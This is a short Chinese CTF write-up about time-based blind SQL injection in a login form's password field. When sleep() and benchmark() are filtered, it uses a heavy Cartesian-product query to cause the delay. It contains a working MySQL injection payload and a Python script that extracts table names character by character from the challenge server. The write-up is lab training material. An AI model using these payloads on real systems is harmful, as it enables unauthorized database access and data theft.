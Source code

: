 在密码栏输入’单引号报错500，输入' #正常。

**只有密码框可注入**

证明是用单引号闭合，用sqlmap跑无结果。

登录框注入点应该是where之后

无回显注入方式就只剩时间盲注了

但是sleep()  benchemark()被过滤了

![image-20210324155520935](image-20210324155520935.png)

看了wp可以用笛卡尔积注入

```mysql
-1' and if((select table_name from information_schema.tables where table_schema=database()),(SELECT count(*) FROM information_schema.columns A, information_schema.columns B, information_schema.tables C),1) #
```

利用笛卡尔积注入跑脚本

```python
import requests
import time
url="http://dd611384-776f-48d8-a1ef-2eb62ee46c19.node3.buuoj.cn/user/login"
flag=''
for i in range(3,50):
    f1=flag
    top=127
    low=33
    while low<=top:
        time.sleep(8)
        mid=(top+low)//2
        # p1="admin'/**/and/**/if(ascii(substr((select/**/group_concat(column_name)/**/from/**/information_schema.columns/**/where/**/table_schema=database()/**/and/**/table_name='user'),{},1))={},1,0)/**/and/**/(SELECT/**/count(*)/**/FROM/**/information_schema.tables/**/A,/**/information_schema.tables/**/B,information_schema.tables/**/C)#".format(i,mid)
        # p2="admin'/**/and/**/if(ascii(substr((select/**/group_concat(column_name)/**/from/**/information_schema.columns/**/where/**/table_schema=database()/**/and/**/table_name='user'),{},1))>{},1,0)/**/and/**/(SELECT/**/count(*)/**/FROM/**/information_schema.tables/**/A,/**/information_schema.tables/**/B,information_schema.tables/**/C)#".format(i,mid)
        p1="1' or if(ascii(substr((select table_name from information_schema.tables where table_schema=database()),{},1))={},(SELECT count(*) FROM information_schema.columns A, information_schema.columns B, information_schema.tables C),0)#".format(i,mid)
        p2="1' or if(ascii(substr((select table_name from information_schema.tables where table_schema=database()),{},1))>{},(SELECT count(*) FROM information_schema.columns A, information_schema.columns B, information_schema.tables C),0)#".format(i,mid)
        data1={'username':'admin','password':p1}
        data2={'username':'admin','password':p2}
        try:
            print(i,mid)
            r1=requests.post(url,data=data1,timeout=2)
        except requests.exceptions.ReadTimeout as e:
            flag+=chr(mid)
            print(flag)
            break
        except Exception as e:
            pass
        else:
            try:
                r2=requests.post(url,data=data2,timeout=2)
            except requests.exceptions.ReadTimeout as e:
                low=mid+1
            except Exception as e:
                pass
```